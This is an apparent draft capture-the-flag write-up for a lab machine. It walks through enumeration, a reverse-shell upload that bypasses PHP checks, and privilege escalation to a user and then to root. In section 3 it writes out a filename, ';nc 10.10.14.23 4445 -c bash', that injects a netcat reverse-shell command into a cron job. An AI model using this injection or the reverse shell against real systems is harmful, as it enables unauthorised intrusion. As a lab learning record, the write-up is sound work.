


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

While that was running, I went ahead and started running both a dirb and nikto.

`dirb http://10.10.10.146 -r`

`nikto -h http://10.10.10.146`

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp.

*insert screenshot of modifying request*

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(
*insert screenshot of running the sudo -l command*

Going to attempt to transfer `LinEnum` and then run it to see all the interesting things on this machine.

*insert screenshot of LinEnum output*

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`

*more screenshots*
Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.14.23 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine.

Success!
*more screenshots*

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`
*more screenshots*

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root *make a in-line link to the vulnerability*.

Following the instructions about the vulnerability below, we get root:

*insert screenshot of exploiting the script*

BOOM! Hello there root shell!
*insert screenshot of root shell*

## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
